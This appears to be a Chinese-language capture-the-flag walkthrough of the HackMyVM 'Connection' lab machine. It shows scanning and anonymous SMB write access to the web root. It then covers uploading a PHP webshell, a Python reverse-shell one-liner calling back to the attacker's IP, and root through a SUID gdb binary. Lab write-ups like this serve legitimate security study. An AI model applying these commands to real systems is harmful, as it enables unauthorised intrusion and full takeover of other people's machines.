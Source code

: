 # Connection

:::note

[Linux VM] [Tested on VirtualBox] created by || whitecr0wz

⏲️ Release Date // 2020-09-25

✔️ MD5 // 530e8d12ae6fc543a13971d6ca4549fb

☠ Root // 318

💀 User // 316

📝Notes //
Nice and easy VM ;)

:::

## 靶机启动

![靶机启动](img/image_20231203-100315.png)

靶机 IP：

```plaintext
192.168.56.106
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.106
Host is up (0.00036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b7e601b5f906a1ea40042944f4df22a1 (RSA)
|   256 fb1694df9389c7568584229ea0be7c95 (ECDSA)
|_  256 452efb8704ebd18b926f6aea5aa2a11c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:F1:44:FD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: CONNECTION; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h39m58s, deviation: 2h53m12s, median: -1s
| smb2-time:
|   date: 2023-12-23T02:03:57
|_  start_date: N/A
|_nbstat: NetBIOS name: CONNECTION, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: connection
|   NetBIOS computer name: CONNECTION\x00
|   Domain name: \x00
|   FQDN: connection
|_  System time: 2023-12-22T21:03:57-05:00
```

## 探测 web 服务

![web /](img/image_20231207-100701.png)

就是 Debian 的默认页面，并且目录爆破扫描没有有价值的信息

## 利用 smb 服务

列出服务器上 smb 服务的信息

```shell
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $smbclient --no-pass -L //192.168.56.106
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        share           Disk
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Private Share for uploading files)
SMB1 disabled -- no workgroup available
```

发现一个 `share` 目录，进入终端查看内容

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $smbclient -N \\\\192.168.56.106/share
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 09:48:39 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  html                                D        0  Wed Sep 23 10:20:00 2020

                7158264 blocks of size 1024. 5438556 blocks available
smb: \> cd html
smb: \html\> ls
  .                                   D        0  Wed Sep 23 10:20:00 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  index.html                          N    10701  Wed Sep 23 09:48:45 2020

                7158264 blocks of size 1024. 5438556 blocks available
```

可以推断这个目录为 web 服务的工作目录，尝试写 php 马

```shell
smb: \html\> put webshell.php
putting file webshell.php as \html\webshell.php (7.8 kb/s) (average 7.8 kb/s)
smb: \html\> ls
  .                                   D        0  Sat Dec 23 10:24:12 2023
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  index.html                          N    10701  Wed Sep 23 09:48:45 2020
  webshell.php                        A       32  Sat Dec 23 10:24:12 2023

                7158264 blocks of size 1024. 5438540 blocks available
```

访问 web 服务，发现可以被正常解析

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Connection]
└──╼ $http get 192.168.56.106/webshell.php
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Date: Sat, 23 Dec 2023 02:25:00 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.38 (Debian)
```

尝试蚁剑连接，成功 getshell

![蚁剑 成功连接](img/image_20231226-102601.png)

## user pwned

![蚁剑 /home/connection/local.txt](img/image_20231226-102644.png)

```plaintext title="/home/connection/local.txt"
3f491443a2a6aa82bc86a3cda8c39617
```

## 进一步稳定 shell 加以利用

利用插件，执行反弹 shell

![蚁剑 反弹 shell](img/image_20231228-102843.png)

成功收到回连 shell

```shell
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Connection]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.106] 37550
whoami
www-data
```

并利用 pwncat-cs 进一步稳定 shell

```shell
python3 -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

成功稳定 shell

![pwncat-cs 收到回连 shell](img/image_20231232-103248.png)

## 提权探测

```plaintext title="sudo -l"
bash: sudo: command not found
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
```

在 suid 二进制文件中，发现一个特殊文件

```plaintext
-rwsr-sr-x 1 root root 7.7M Oct 14  2019 /usr/bin/gdb
```

## 利用 gdb 进行提权

```shell
(remote) www-data@connection:/var/www/html$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
[](remote)[] []root@connection[]:[]/var/www/html[]$ whoami
root
```

## root pwned

```plaintext title="/root/proof.txt"
a7c6ea4931ab86fb54c5400204474a39
```
